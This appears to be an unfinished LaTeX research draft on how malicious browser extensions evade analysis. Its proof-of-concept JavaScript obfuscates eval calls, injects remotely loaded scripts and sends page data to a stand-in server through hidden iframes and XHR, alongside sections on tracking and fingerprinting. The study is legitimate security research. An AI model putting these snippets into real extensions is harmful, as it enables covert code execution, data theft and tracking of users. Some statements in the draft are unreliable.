	\textit{WebEval} is an analysis tool to identify malicious Chrome extensions \cite{190984}. Its main goal is to reduce the amount of human resources needed to verify that an extension is indeed malicious. Therefore, it relies on an automatic analysis process whose results are valuated by a machine learning algorithm. Ideally, the system runs without human interaction. The research of Jagpal et al. shows that the false positive and false negative rates of their system decreases over time but new threats result in a sharp increase. They concluded that human experts must always be a part of their system. In three years of usage, WebEval analyzed 99,818 extensions in total and identified 9,523 (9.4\%) malicious extensions. Automatic detection identified 93.3\% of malicious extensions which were already known and 73,7\% of extensions flagged as malicious were confirmed by human experts. \\
	In addition to their analysis pipeline they stored every revision of an extension that was distributed to the Google Chrome web store in the time of their research. A weakly rescan targets extensions that fetch remote resources that may become malicious. New extensions are compared to stored extensions to identify almost duplicated extensions and known malicious code pattern. WebEval also targets the identification of the developer who distributes malicious extensions and fake accounts inside the Google Chrome web store. Therefore reputation scans of the developer, the account's email address and login position are included in the analysis process.  \\
	The extension's behavior is dynamically analyzed with generic and manual created behavioral suits. Behavioral suits replay recorded interactions with a web page to trigger the extension's logic. Generic behavioral suits include techniques developed by Kapravelos	et al. for Hulk \cite{184485} such as \textit{honeypages}. Manual behavioral suits test an extension's logic explicit against known threats such as to uninstall another extension or modify CSP headers. In addition, they rely on anti-virus software to detect malicious code and domain black lists to identify the fetching of possible harmful resources. If new threats surface WebEval can be expanded to quickly respond. New behavioral suits and detection rules for the self learning algorithm can target explicit threats. 
	
	\textit{VEX} is a static analysis tool for Firefox Add-ons \cite{Bandhakavi:2011:VBE:1995376.1995398}. Bandhakavi et al. analyzed the work flow of Mozilla's developers who manually analyze new Firefox Add-ons by searching for possible harmful code pattern. They implemented VEX to extend and automatize the developer's search and minimize the amount of false-positive results. VEX statically analyses the flow of information in the source code and creates a graph system that represents all possible information flows. They created a pattern for the graph system that detects possible cross-site scripting attacks with \textit{eval} or the DOM function \textit{innerHtml} and Firefox specific attacks that exploit the improper use of \textit{evalInSandbox} or wrapped JavaScript objects. More vulnerabilities can be covered by VEX by adding new flow pattern. VEX targets buggy Add-ons without harmful intent or code obfuscation. 
	
%% !TeX spellcheck = en_US

\section{Extension Implementation} %TODO

	\subsection{Hide Malicious Behavior} %TODO
	
		
	
		%%%% code stored plain inside extension bundle
		% -> detectable by the human eye / static analysis tools like VEX
		
		% mention analysis tooles
		% static and dynamic
		
		
		
		\subsubsection{Code Obfuscation}
			
			Code obfuscation describes the transformation of a program's source code into a form in which it takes more time to analyze it's capabilities and purpose than in it's original state but without changing the execution result.  \\
			% not revertible
			% stealthy
			
			It was originally developed to protect a developer's implementation from code plagiarism. Other developers should not be able to understand the concrete implementation of the program or algorithm. Nowadays, it is often used to hide malicious behavior from detection. Code obfuscation changes the code's structure and therefore prevents the detection of known code pattern. It also changes the application's hash signatures which are often used by anti-virus software to identify known threats. A simple method of code obfuscation is to change the order of methods in the source code. This results in a different hash signature for each order but still gives the same result after execution. \\
			
			Code obfuscation is used in programing languages without a strict syntax. The first languages for which obfuscation was used were C and C++. \\
			
			% originally used for C or C++, languages without strong syntax specifications, obfuscation often settled in compiled machine code 
			% JavaScript files are not compiled, obfuscation in source code, often enlarges source code
			% strong obfuscation is not or only with great expense reversible
		
			Code obfuscation should not be confused with minification or encryption. Minification targets to decrease the size and hence the download time of JavaScript files. It is often implemented as a script which prints the original script. Although the minimized JavaScript code is not readable by the human eye, its execution returns the original source code. This fact renders minification useless as an obfuscation technique. Similar, encrypted code is unreadable not only to a human but also to the compiler. Consequently, encryption can not be used as an obfuscation technique because obfuscated code has still to be executable. \\
	
			
	
			% \cite{caffinemonkey}
			% add random sections to source code that are ignored by the JavaScript compiler such as whitespace or comments, does not change the semantics but changes binary representation which is used by security technologies, hampers human analysts and content matching
			% reassign functions and randomzie variable names, no certainity that beyond a function name the standartised function stands,
			
			%\cite{Xu:2013:JMS:2435349.2435364} 
			% variable values converted in computional results, string splitting, 
			% JavaScript code encoding in ascii unicode or hexadecimal
			% JavaScript code encoded with custom function, decode function in source code is executed at runtime
			% change execution path without effecting semantics, add dead code,
			% \cite{kim2011suspicious}
		
		
		
			Some techniques which are used for code obfuscation only hamper manual analysis. They change the visual representation of the code and remove information that assist developer to understand the code's capabilities.
			
			\begin{itemize}
				\item \textbf{Remove Comments} Comments help other developers to understand the code. They are often placed next to code sections where the exact operation is not obvious. The removing of comments can not be reverted because there are no traces left which may be used to restore them.
				\item \textbf{Remove Code Structure} Using whitespace, linebreaks, and indenting improves the readability of a source code. Removing them results in a single line of code. There exist many tools that can revert this action. For instance, the JavaScript library \textit{js-prettify} which was especially developed for this task. %TODO cite
				\item \textbf{Rename Variables} Meaningful variable and method names facilitate the comprehension of an application's source code. Replacing them with meaningless or random strings removes a further information that helps understanding the code and increases the probability to mistake variables.
			\end{itemize}
			
			Static analysis tools such as VEX or the implementation from Hallaraker et al. are still able to detect malicious behavior in code which was obfuscated with previously described techniques \cite{Bandhakavi:2011:VBE:1995376.1995398, Hallaraker:2005:DMJ:1078029.1078861}. 
			
			\begin{itemize}
				\item \textbf{Remove Code } Reducing the readability of an application's source code is often the first step of obfuscation. This is achieved by removing comments and code structure such as whitespace, linebreaks, and indenting and replacing variable names with meaningless or random names. These procedures only hamper manual analysis but static analysis tools such as VEX are still able to detect malicious code pattern \cite{Bandhakavi:2011:VBE:1995376.1995398}. Removing comments is a non-revertible procedure, whereas many tools exists that add structure to source code for example the JavaScript library \textit{js-prettify}. 
				\item \textbf{String Encoding} The method \texttt{Number.toString(radix)} returns a string representation of the numeric value in the specified radix. This allows to encode single characters with numeric values. For example, if we use a radix of 36, we can encode all lowercase characters starting with \texttt{(10).toString(36)} returns \texttt{"a"} and finishing with \texttt{(35).toString(36)} returns \texttt{"z"}.
				\item \textbf{String Splitting} Splitting strings and concatenating at runtime hides code words in the source code. Adding mathematical calculations to determine the exact location of a string part adds even more confusion.
				\item \textbf{String Based Method Execution} JavaScript methods are normally called with the notation \texttt{object.method()}. But in JavaScript even methods are objects and any object can be called like an associative array. So we can execute a method like this \texttt{object["method"]()}. This allows us to hide method names with the above described techniques of string encoding and splitting. %TODO
				\item \textbf{Dead Code} Adding code sections which ...
				% depend on conditions never true => never executes
				% execute differend 
			\end{itemize}
			
			\begin{table}
				\begin{tabular}{|p{0.473\textwidth}|p{0.473\textwidth}|} \hline
					\multicolumn{2}{|l|}{\textbf{Remove Comments}} \\ \hline
					\begin{lstlisting}
/**
 * Subtract the higher value 
 * from the lower value.
 * @throws If x equals y
 */
function sub(x, y) {...}
					\end{lstlisting} &
					\begin{lstlisting}
function sub(x, y) {...}
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{Remove Code Structure}} \\ \hline
					\begin{lstlisting}
function sub(x, y) {
  if(x < y) {
    return(y - x);}
  }
  if(x > y) {
    return(x - y);
  }
  throw new Exception();
}
					\end{lstlisting} &
					\begin{lstlisting}
function sub(x,y){if(x<y){return(y-x);}}if(x>y){return(x-y);}throw new Exception();}
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{Rename Variables}} \\ \hline
					\begin{lstlisting}
var person = {
  firstname: 'Paul',
  lastname: 'Hendricson',
  age: 32,
  city: 'Darmstadt'
}
					\end{lstlisting} &
					\begin{lstlisting}
var IlIIlI = {
  IllIlI: 'Paul',
  IlIllI: 'Hendricson',
  IIlIlI: 32,
  IlIlII: 'Darmstadt'
}
					\end{lstlisting} \\ \hline
				\end{tabular}
			\end{table}
			
			
			\begin{table}
				\begin{tabular}{|p{0.473\textwidth}|p{0.473\textwidth}|} \hline
					\multicolumn{2}{|l|}{\textbf{String Encoding}} \\ \hline
					\begin{lstlisting}
var x = 'hello';
					\end{lstlisting} &
					\begin{lstlisting}
var x = (17).toString(18) 
  + (14).toString(23) 
  + (21).toString(24) 
  + (21).toString(30) 
  + (24).toString(29);	
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{String Splitting}} \\ \hline
					\begin{lstlisting}
var x = 'Hello world';
					\end{lstlisting} &
					\begin{lstlisting}
var y = ['d','w','l','He',' ','r','o'];
var x = y[3] + y[6-5+1] + y[2] 
  + y[y.length -1] + y[2*2]
  + y[y.length - 6] + y[6]
  + y[3+2] + y[1*2] + y[0];
					\end{lstlisting} \\ \hline
					\multicolumn{2}{|l|}{\textbf{String Based Method Execution}} \\ \hline
					\begin{lstlisting}
eval('alert(1)');
					\end{lstlisting} &
					\begin{lstlisting}
[]['sort']['constructor']('alert(1)')();
					\end{lstlisting} \\ \hline
				\end{tabular}
			\end{table}
			
			
			% Techniques that change the execu
			
			% techniques:
			% * remove comments
			% * remove whitspace
			% * rename variables/methods with meaningless names
			% * encod strings as numeric values, use .toString to decode
			% * split strings
			% * add dead code
			% 	-> code does not change program execution, increases complexity of control flow,
			% * use JS type names to extract characters and build strings
			%	-> (![]+"")[1] => (false+"")[1] => "false"[1] => "a"
			% * use uncommon methods to execute functions
			% -> eval("alert(1)") => []["some"]["constructor"]("alert(1)")()
			% some techniques are reversible (whitespace)
			
			% detectable through dynamic analysis or information flow tracing
			% code execution
			% webeval detects obfuscated or minification by comparing the length of the original to a pretified version
			% many open source libraries
		
		\subsubsection{Remotely Loaded Scripts}
			
			Another possibility to hide a malicious code snippet is to load it from a remote server and execute it at runtime. The code is not present in the extension's installation and can therefore not be detected by a static analysis. \\
		
			An extension has several possibilities to load a remote script. HTML pages which are bundled in the extension's installation can include \texttt{<script>} elements with a \texttt{src} attribute pointing to a remote server. If the extension is executed and the page is loaded, the browser automatically loads and executes the remote script. This mechanism is often used to include public scripts for example from Google Analytics. \\
			A WebExtension needs to explicit state that it wants to fetch remote scripts in its background page. The default Content Security Policy disables the loading of scripts per script element which have another origin than the extension's installation. We can relax the default CSP and enable the loading of remote scripts over HTTPS by adding an URL pattern for the desired origin. \\

			Extensions are able to load resources with a XMLHttpRequest. If called from a content script, the XMLHttpRequest will be blocked by the Same Origin Policy if the target does not match the current web page's origin. However, the same restriction does not apply to the extension's background. If the XMLHttpRequest is executed from within the background process, any arbitrary host is allowed as target. \\
			Again, WebExtensions underly a further restriction. Only if a matching host permission is declared in the extension's manifest, the browser will allow the web request. The attacker has to declare an URL pattern which matches his remote server. To disguise the concrete URL of his remote server, the attacker may take use of the pattern \url{http://*/*} and \url{https://*/*}. \\
			The JavaScript extract in \coderef{xhrLoadScript} shows how to fetch a remote script with an XMLHttpRequest. On the first line, we create a new XMLHttpRequest object. This is a standardized API and available to JavaScript in all current browsers \cite{w3cXMLHttpRequest}. The event handler on line 2 till 6 that listens to the \texttt{onreadystatechange} event, handles the response from our request. In our case, the response will be our remote loaded script. We have to check whether the \texttt{readyState} equals 4, which indicates that the operation is done and the response is loaded. The \texttt{open} method on line 7 defines the request type and the target URL and finally on line 8 we execute the request. The \texttt{send} method could take a message that would be sent as a parameter along the request. In our case, this is not necessary because we only want to fetch a resource. 
			
			\begin{code}
				\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if (xhr.readyState == 4) {
    handleScript(xhr.responseText);
  }
}
xhr.open('GET', 'https://localhost:3001/javascripts/simple.js');
xhr.send();
				\end{lstlisting}
				\caption{Load remote script with a XMLHttpRequest}
				\label{xhrLoadScript}
			\end{code}
			
			Before we can execute a remote loaded script, we have to consider what the scripts objectives are. Whether it should act in the extension's background or as a content script. If the first case applies, we can use the JavaScript method \texttt{eval} to execute the remote loaded text as a JavaScript application. The use of eval is frowned upon because it is a main source of XSS attacks if not used correctly \cite{mozillaDangerousEval}. On that account, the default CSP of a WebExtension disables the use of eval in its background process. We can relax the default policy and add the key \texttt{unsafe\_eval} to lift the restriction. \\
			
			If we want to execute the remote loaded script as a content script, we can programmatically inject it. A WebExtension can use the method \texttt{chrome.tabs.executeScript} to execute a given string as a content script in a currently open tab. To use this feature, the extension needs the \texttt{tabs} permission. This permission is also granted, if the extension uses the \texttt{activeTab} permission but with the drawback that we can only inject the script if the user invokes the extension. A Firefox Add-on can inject the script in an open tab with the method \texttt{require("sdk/tabs").activeTab.attach}. But other than WebExtensions, it can also register a content script with an URL pattern at runtime using the \texttt{sdk/page-mod} module. \\
			
			If we want to execute a remote loaded script only in the scope of a web page, we can take use of the DOM API. It allows us to add a new script element to the current web page. If we set the source attribute of the script element to the URL of our remote server, the browser will fetch and execute the script for us. As a proof of concept, we  implemented a WebExtension that executes the content script shown in \coderef{contentScriptRemotLoad} in any web page without the need for further permissions. The content script creates a new \texttt{script} element, sets the element's \texttt{src} attribute to the URL of our remote server and appends it to the web page's body. The remote loaded script is immediately executed.
			
			\begin{code}
				\begin{lstlisting}	
var script = document.createElement('script');
script.setAttribute('src', 'https://localhost:3001/javascripts/simple.js');
document.body.appendChild(script);
				\end{lstlisting}
				\caption{Content Script that executes a remote loaded script}
				\label{contentScriptRemotLoad}
			\end{code}
		
			% A dynamic analysis will detect remote loaded scripts. It analyzes the extension at runtime, hence while the remote loaded scripts are present. Some approaches can also be detected by a static analysis. For example script elements that fetch a remote script at execution, contain the 
	
		\subsubsection{Mutual Extension Communication}
				
			An extension is able to communicate with another extension. This opens the possibility of a permission escalation as previously described by Bauer et al. \cite{extensions:cns14}. The extension which executes the attack does not need the permissions to fetch the malicious script. Another extension can execute this task and then send the remote script to the executing extension. This allows to give both extensions less permissions and thus making them less suspicious especially for automatic analysis tools. To detect the combined malicious behavior, an analysis tool has to execute both extensions simultaneously. This is a very unconventional approach, because an analysis often targets only a single extension at a time. \\
			
			A communication channel that does not need any special interface can be established over any web page's DOM. All extensions with an active content script in the same web page have access to the same DOM. The extensions which want to communicate with each other can agree upon a specific DOM element and set it's text to exchange messages. Another way to exchange messages is to use the DOM method \texttt{window.postMessage}. This method dispatches a \texttt{message} event on the web pages \texttt{window} object. Any script with access to the web page's \texttt{window} object can register to be notified if the event was dispatched and then read the message. \\
			
			The code shown in \coderef{postMessageListener} and \coderef{postMessageMethod} is an example how to use this method. In \coderef{postMessageListener} we add an event listener to the \texttt{window} object that listens to the \texttt{message} event. The event handler method awaits the key \texttt{from} to be present in the event's data object and the value of \texttt{from} to equal \texttt{extension}. We use this condition to identify messages which were dispatched by an extension. Further, the handler awaits that the message from the other extension is stored with the \texttt{message} key. In \coderef{postMessageMethod} we create our message object with the key-value pairs \texttt{'from':'extension'} and \texttt{'message':'secret'} and call the \textit{postMessage} method with our message object as first parameter. The second parameter defines what the origin of the \texttt{window} object must be in order for the event to be dispatched. In our case, the web page and all content scripts share the same \texttt{window} object. Therefore, a domain check is unnecessary and we us a wildecard to match any domain.
			
			\begin{code}
				\begin{lstlisting}
window.addEventListener('message', function(event) {
  if(event.data.from && event.data.from === 'extension') {
    handle(event.data.message);
  }
});
				\end{lstlisting}
				\caption{Event handler for the postMessage method}
				\label{postMessageListener}
			\end{code}
			
			\begin{code}
				\begin{lstlisting}
var message = {
  'from'   : 'extension',
  'message': 'secret'
}
window.postMessage(message, '*');
				\end{lstlisting}
				\caption{Call of the postMessage method}
				\label{postMessageMethod}
			\end{code}
		
		
		%%%% fetch different scripts depending on current context
		% no need to hide the servers address if server loads benign scripts most of the time
		% context: web page, user, device
	
	\subsection{Communication}
	
		An important part for browser attacks is the communication between the malicious extension and the attacker. We have already shown that we can load scripts from remote servers. In this section, we focus on communication to prepare or execute attacks. \\ %TODO
		
		We can use the a XMLHttpRequest to send data to a remote server. We have preciously shown in \coderef{xhrLoadScript}, that we can fetch a remote script with an XMLHttpRequest. A similar implementation can be used to send any information to a server. Only the method that handles the response needs to be adapted. In our implementation, we used the code shown in \coderef{xhrSendData} to send a message to our remote server. Similar to \coderef{xhrLoadScript}, we first create a new XMLHttpRequest object and set the request type and the target URL. Because we only want to send information out and do not care about the response, we do not need to declare a response handler like the implementation in \coderef{xhrLoadScript} on line 2 till 6. Instead, we have to set the request's \textit{Content-type} header. This allows our server to correctly decode the web request's message. We decided to use the standard URL notation \cite{w3cUrlSpecifications}. Finally, we deliver our message to the send method which executes the request. 
		
		\begin{code}
			\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log');
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
			\end{lstlisting}
			\caption{Send data to a remote server with a XMLHttpRequest}
			\label{xhrSendData}
		\end{code}
		
		Another strategy to transfer information to a remote host was described by Liu et al. \cite{Liu12chromeextensions:}. They analyzed possible threats in Chrome's extension model through malicious behavior and conducted that an extension can executed HTTP requests to any arbitrary host without cross-site access privileges. For that purpose, they used the mechanics of an \textit{iframe} element. Its task is to display a web page within another web page. The displayed web page is defined by the URL stored inside the iframe's \textit{src} attribute. If the URL changes, the iframe reloads the web page. Adding parameters to the URL allows to send data to the targeted server. As a proof of concept, we implemented the content script shown in \coderef{contentScriptSendDataWithIframe} to send data to our remote server. It creates a new \texttt{iframe} element, hides it by setting the iframe's display style to \texttt{none}, and appends it to the web pages body. The function \texttt{send(data)} expects a string in the standard URL notation \cite{w3cUrlSpecifications}. We append the current web page's URL to the outgoing data to later identify the origin of the transmitted information. Finally, we set the \texttt{src} attribute of our iframe element to execute the web request. \\
		
		\begin{code}
			\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);

function send(data) {
  data += "&url=" + encodeURIComponent(window.location.href);
  iframe.setAttribute('src', 'https://localhost:3001/log?' + data);
}
			\end{lstlisting}
			\caption{Content script that sends data to a remote server using an \texttt{iframe} element}
			\label{contentScriptSendDataWithIframe}
		\end{code}
		
		The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin than the script itself. Therefore, if the web page inside the iframe was loaded from another domain as the parent web page, the iframe's JavaScript can not access the parent web page and vice versa. This boundary does not prevent an extension to access information in an iframe. The extension can execute a content script in every web page hence in the iframe's web page, too. This allows us to use the content script in \coderef{contentScriptSendDataWithIframe} for a two way communication channel. Executing a second content script inside the iframe, allows us to read information which our server has embedded inside the fetched web page. \\
		
		In a previous research, Liu et al. implemented extensions for major browsers that act as bot in a botnet \cite{liu2011botnet}. Their implementation is able to perform DDoS and spamming attacks. A botnet needs a communication channel over which the attacker controls his bots and sends needed information such as the target for a DoS attack or a spamming text. Liu et al. used the automatic update of extensions as their communication channel. They added a file to the extension's bundle which contains the commands. The extension reads the file and executes the attack.  
		% stealthy
		% distributed attack times, next attack next time user starts browser
	
	\subsection{Attack Vectors}
		
		
		
	\subsection{Targeting}
	
		We have previously described the advantage of identifying the current user. If it was successful, we can exchange an otherwise benign script with a malicious one. This allows us to bypass dynamic analysis tools such as Hulk or WebEval and target specific users \cite{184485, 190984}. In this section, we will describe methods to identify the current user and how an extension can execute or even support these methods. 
		
		\subsubsection{User Tracking}
	
			User tracking refers to the linking of multiple web pages that were visited by the same user, thus allowing to follow the path a user has taken from website to website. User tracking is known to harm the user's privacy and to counter attempts to stay anonymous when browsing in the Internet. %TODO cite 
			But there are also benign reasons for user tracking, for instance improving the usability of a website based on collected information. \\ 
			
			Advertising is the main reason for user tracking. Companies pay large amounts of money to display advertisements for the purpose of increasing their sales volume. Without knowledge about the consumer's interest, a company can not advertise a particular product with success. A consumer is more likely to buy a product - what the goal of advertising is - that fits his needs. Therefore, companies want to collect information's about the consumer and his interests. Given, that more and more consumer use the Internet nowadays, companies focus on websites as advertising medium. The collection and evaluation of a website's user data gives advertising companies the chance to personalize their advertisements. They can display advertisements on websites that with a high degree of probability match the current user's needs. Because this advertising strategy increases their profit, companies pay more money to website's that provide their user data for personalized advertising. Large companies such as Google or Facebook use targeted advertising as their business model. They act as middle man between advertiser and website hosts and provide large advertising networks. Other websites may embed advertisements from those networks which frees them from investing in user tracking and hosting their own servers for advertising. In addition, small websites without a monetization strategy may use embedded advertisements to continue to offer their services for free and still avoid a financial loss. \\
			
			A reason why the displaying of advertisements may be dangerous for a user was researched by Xinyu Xing et al. analyzed Chrome extensions focused on the distribution of malware through the injection of advertisements \cite{Xing:2015:UMT:2736277.2741630}. They analyzed 18,000 extensions and detected that 56 of 292 extensions which inject advertisements also inject malware into web pages. %TODO 
			\\
			
			Another area for which user tracking is used are web analytics. User data and web traffic is measured, collected, and analyzed to improve web usage. Targeted data is primarily the user's interaction with and movement through the website such as how long a web page is visited, how the user enters and leaves the website, or with which functionality he has trouble. On the basis of these information the website's developer can improve a web page's performance and usability. If used for a vending platform, these information can also be used to coordinate for example sale campaigns. \\
			
			The tracking of a user is often accomplished by storing an identifier on the user's system the first time the user visits a tracking website. Reading out the identifier from another website allows to create a tracking profile for the user. In the following list we describe several methods used for user tracking. \\
			
			\begin{itemize}
				\item \textbf{Tracking Cookies} The first web technology used to track users were HTTP cookies. Shortly after the introduction of cookies, first third-party vendors were observed that used cookies to track users between different web pages. %TODO cite
				If a user visits a web page that includes a resource from the tracking third-party, a cookie is fetched together with the requested resource and acts as an identifier for the user. When the user now visits a second web page that again includes some resource from the third-party, the stored cookie is send along with the request for the third-party's resource. The third-party vendor has now successfully tracked the user between two different web pages.  
				
				\item \textbf{Local Shared Objects} Flash player use a technique similar to cookies to synchronize data between different browser sessions. The data is locally stored on the user's system by websites that use flash. Flash cookies as tracking mechanism have the advantage that they track the user behind different browsers and they can store up to 100KB whereas HTTP cookies can only store 4KB. Before 2011, local shared objects could not easily be deleted from within the browser because browser plugins hold the responsibility for their own data. In 2011 a new API was published that simplifies this mechanism \cite{mozillaWikiClearPrivacyAPI}.
				
				\item \textbf{Evercookies} Evercookie is a JavaScript framework implemented to produce persistent identifiers in a browser that are difficult to remove \cite{evercookie}. For that purpose, it uses multiple storage technologies such as HTTP and Flash cookies, HTML5 storages, web history and cache, and unusual techniques such as storing the identifier in RGB values of cached graphics. To hamper the removing from a browser, it recreates deleted identifiers as soon as the user visit a web site that uses the framework. The user has to delete every stored identifier to remove the evercookie completely. 
				
				\item \texttt{Web Beacon} A web beacon is a remote loaded object that is embedded into an HTML document usually a web page or an email. It reveals that the document was loaded. Common used beacons are small and transparent images, usually one pixel in size. If the browser fetches the image it sends a request to the image's server and also sends possible tracking cookies along. This allows websites to track their user on other sites or gives the email's sender the confirmation that his email was read. An example is Facebook's "like" button or similar content from social media websites. Those websites are interested into what other pages their users visit. The "like" button reveals this information without the need to be invoked by the user. 
			\end{itemize}
			
		\subsubsection{Fingerprinting}
			
			Previously described methods for tracking a user identify him based on some data which was intentionally stored on the user's system. Those stored identifiers are vulnerable to deletion by the user. A study from 2010 showed that a browser reveals many browser- and computer-specific information to web pages \cite{Eckersley:2010:UYW:1881151.1881152}. These information are collected and merged to create an unique fingerprint of the currently used browser. Collecting the same information on another web page and comparing it to stored fingerprints, makes it possible to track and identify the current user without the need to store an identifier on the user's computer. Theoretically, it is possible to identify every person on earth with a fingerprint in the size of approximately 33 bit. Currently eight billion people live on our planet. Using 33 bit of different information we could identify $2^{33}=8,589,934,592$ people. But the same kind of information taken from different users will probably equal. Therefore, it is necessary to collect as much information as possible to create an unique fingerprint. \\
			
			The technique of fingerprinting is an increasingly common practice nowadays which is mostly used by advertising companies and anti-fraud systems. It gives the opportunity to draw a more precise picture of a user. This is supported by the increasing use of mobile devices which provides information about the user's location. Furthermore, analyzing visited web pages and search queries give access to the user's hobbies and personal preferences. Advertising companies focus mainly on the user's personal information to display even more precisely adapted advertisements. Whereas, anti-fraud systems use the identification of the currently used devices to detect possible login tries with stolen credentials. If someone tries to log in to an account, the anti-fraud system compares the fingerprint of the currently used device with stored fingerprints for that account. If the fingerprint does not match, the user either uses a new device or someone unknown got access to the user's credentials. In this case, the web services often use further identification techniques such as personal security questions or similar. \\
			
			Fingerprinting is known to harm privacy even more than simple tracking, because more personal information are gathered and stored. People fear that everything they do on the Internet is stored and may be used to harm them. This may become reality. Many politicians discuss about a data preservation to fight terrorism and criminals. Although these ideas are ...(ehrhaft), the fear that the information are misused in some form remains. %TODO
			
			For example may a health insurance increase contributions because the insurant often books journeys to countries with a higher risk of an injection or a worker is accused to reveal company secretes because he often communicates with a friend who works for the competition and fired as a result. \\
			
			
			
			% usage of mobile devices increases => devide tracking, location tracking
			% anti-fraud, identify account access with stolen credentials, identify current user and compare to stored information connected to username
			% fingerprinting + tracking => more data, 
			% collected personal data (hobbys, preferences, health status) from visited websites, search queries
			% people fear everything they do on the Internet is stored, data preservation
			% worst case szenarios: health insurance increase contributions because insurant often bookes journeys to dangerous areas or does extreme sports, boss fires user because user often communicates with a friend that works for the competition accuses him to reveal comany secretes
			% positive szenarios: identification of terrorists, tracking of criminals
			
			There exists numerous scientific papers about fingerprinting techniques \cite{paulstone_historysniffing, MBYS11, Nikiforakis:2013:CME:2497621.2498133, Eckersley:2010:UYW:1881151.1881152, MS12, olejnik:hal-00747841}. Because detailed descriptions are off topic for our paper, we focus on a brief description of popular methods. %TODO detailed describtion/brief describtion
			
			\begin{itemize}
				\item \textbf{Browser Fingerprinting} The browser provides a variety of specific information to a web page that can be used to generate a fingerprint of the user's browser. The following list shows examples of fingerprinting properties and how to access them using JavaScript. 
				
				\begin{tabular}{|l|l|p{0.47\textwidth}|}
					\hline
					\textbf{Property} & \textbf{JavaScript API} & \textbf{Example Output} \\
					\hline
					System & \texttt{navigator.platform} & "Win32" \\ \hline
					Browser Name & \texttt{navigator.userAgent} & "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0" \\ \hline
					Browser Engine & \texttt{navigator.appName} & "Netscape" \\ \hline
					Screen Resolution & \texttt{screen.width} & 1366 (pixels) \\
					& \texttt{screen.height} & 768 (pixels) \\
					& \texttt{screen.pixelDepth} & 24 (byte per pixel) \\ \hline
					Timezone & \texttt{Date.getTimezoneOffset()} & -60 (equals UTC+1) \\ \hline
					Browser Language & \texttt{navigator.language} & "de" \\ \hline
					System Languages & \texttt{navigator.languages} & ["de", "en-US", "en"] \\ \hline
				\end{tabular}
				
				\item \textbf{Fonts} The list of fonts available to a web page can serve as part of a user identification. The browser plugin Flash provides an API that returns a list of fonts installed on the current system. As per current scientific works, the order of the fonts list is stable and machine-specific. %TODO cite
				If the Flash plugin is not available in a browser, JavaScript can be used to test whether particular fonts are installed or not. This approach needs a predefined list and may not cover unpopular fonts. It is implemented by writing a string with each font on the web page. If a font is not installed, the browser uses a fall-back font to draw the text. Comparing the width and hight of the drawn font to those of the fall-back font gives an evidence about the font being installed. 
				
				\item \textbf{History Sniffing} Reading out the user's web history can not only serve as fingerprinting method but also to simplify user tracking. The attacker  An outdated approach to test if a user has visited a particular web page was to use the browser's feature to display links to visited web pages in a different color. A web site would hidden from the user add a list of URLs to a web page as link elements and determinate the displayed color. Nowadays, link elements that were queried by JavaScript calls behave like unvisited links fixing the tread from this sniffing attack. A current approach detects the redrawing of link elements to determine if the underlying web page was visited before \cite{paulstone_historysniffing}. If a link is drawn the first time, it is drawn as an unvisited link and simultaneously a query to the browser's web history database is send. When the query returns that the web page behind the link was visited before, it redraws the link element. This event can be captured giving the desired evidence.
				
				\item \textbf{JavaScript Benchmark Testing} The execution speed of a JavaScript engine depends on the implementation but also on the systems processor architecture and clock speed. Keaton Mowery et al. implemented a set of benchmark test suits to fingerprint different execution speeds \cite{MBYS11}. Using these information, they could distinguish between major browser versions, operating systems and micro architectures. 
			\end{itemize}
		
		\subsubsection{Implementations}
			
			We have shown techniques which are used in web page's to track and identify the current user. Almost all techniques are based on JavaScript and executed inside the current web page. Therefore, an extension which has full access to the web page can also execute them. \\
			
			\textbf{Identifier Storage} An extension is able to store information between browser sessions. Chrome provides an additional cloud based storage that is automatically synced with all devices if the user uses Chrome with his Google account. Firefox Add-ons on the other hand are able to store information on the user's hard disk. We can use this mechanism to provide a storage for a tracking identifier additional to cookies or similar. Such identifier are propagated from a web page to the browser. To receive one, we can use a previous described technique for communicate between a content script and the underlying web page. \\
			
			% TODO
			
			\textbf{Web Beacon} This is another tracking method which we can support with an extension. It notifies a third party that a specific web page was accessed by fetching a resource from a server and sending possible tracking cookies along the request. We implemented an extension that embeds an invisible iframe element in every visited web page. The iframe loads an empty web page from our server along with a tracking cookie. The second time our content script is executed, the tracking cookie will be sent back to our server with the request from the iframe. The extension needs a single content script with the matching attributes \texttt{"http://*/*"} and \texttt{"https://*/*"} and no further permissions. The content script is shown in \coderef{contentScriptWebBeacon}.
			
			\begin{code}
				\begin{lstlisting}
var iframe = document.createElement('iframe');
iframe.setAttribute('src', 'https://localhost:3001/tracking/beacon');
iframe.setAttribute('style', 'display: none;');
document.body.appendChild(iframe);
				\end{lstlisting}
				\caption{Content script that executes a web beacon}
				\label{contentScriptWebBeacon}
			\end{code}
		
			\textbf{Keylogger} JavaScript enables us to register events for every interaction the user has with the current web page. This gives us the possibility to exactly observe what elements the user clicks, double clicks, or drag and drops and what text he enters in input fields. If we combine all these information, we are able to track the user on his path through the web page. 
		
			\textbf{Additional Fingerprint Information} The browser provides additional information to its extension which are not available for web pages. Those information may be used to generate a more accurate fingerprint of the user's browser and system. Accessing the information needs additional permissions. \ref{fingerprintExtension} shows provided information that may be retrieved for a fingerprint and the permissions needed to access them. \\
			
			\begin{table}[h]
				\begin{tabular}{|l|l|l|} \hline
					\textbf{Permission} & \textbf{Information} & \textbf{Example} \\ \hline
					system.cpu & Number of processor kernels & \\
					& Processor's name & Intel(R) Core(TM) i5-3210M CPU @ 2.50GHz \\
					& Processor's capabilities & "sse", "sse2", "sse3"  \\ \hline
					system.memory & Memory capacity & 6501200096 \\ \hline
					gcm & An unique ID for the extension instance & \\ \hline
					management & List of installed extensions & Extension ID and version \\ \hline
				\end{tabular}
				\caption{Additional fingerprint information available to WebExtension}
				\label{fingerprintExtension}
			\end{table} 
			
	\subsection{Summary}


\section{OLD}

